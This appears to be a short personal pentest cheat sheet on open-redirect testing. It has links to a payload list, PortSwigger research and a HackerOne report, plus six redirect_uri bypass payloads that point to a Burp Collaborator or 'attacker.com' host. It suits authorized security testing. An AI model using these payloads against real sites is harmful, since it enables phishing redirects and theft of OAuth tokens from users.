 - https://github.com/cujanovic/Open-Redirect-Payloads/blob/master/Open-Redirect-payloads.txt
- try SSRF
- tray XSS

```jsx
trarget.\com/%09/myburpcollab
trarget.\com//myburpcollab
trarget.\com\\myburpcollab
target.\com/%0d/myburpcollab
redirect_uri=target.\com&redirect_uri=attacker\.com
redirect_uri=target.\com%40myburpcollab.\com
```

-
- https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows
- https://hackerone.com/reports/861940
